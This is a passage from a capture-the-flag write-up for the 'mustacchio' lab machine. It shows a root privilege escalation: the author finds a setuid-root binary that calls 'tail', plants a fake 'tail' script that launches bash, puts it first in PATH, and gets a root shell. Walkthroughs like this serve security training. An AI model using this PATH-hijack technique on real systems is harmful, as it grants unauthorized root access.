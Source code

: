 ```
257605     20 -rwsr-xr-x   1 root     root          16832 Jun 12  2021 /home/joe/live_log
```

- The file is owned by root:root but we can execute it and all what it does is to output the nginx logs.

- By using `cat` on the file, we're able to deduce that from the line

```
�ff.������H�H��Live Nginx Log Readertail -f /var/log/nginx/access.log@����t,����<����|��
```

- It's safe to assume that it runs `tail -f /var/log/nginx/access.log` as root ; 

- However, we can create another file called `tail` in a writable directory and add that as the first entry in the `PATH`, containing a simple command to spawn a bash shell.

- Since this will be executed by root, we will get a shell as root.

- I chose to do this in barry's home

```bash
touch tail
vim tail

<i>
#/bin/bash
bash

<esc>
:wq
<enter>
```

```bash
cat /home/barry/tail 

#!/bin/bash
bash
```

- Now, run the file as usual.

```
barry@mustacchio:~$ /home/joe/live_log 
root@mustacchio:~# 
```

- The last flag is in `/root/root.txt`.

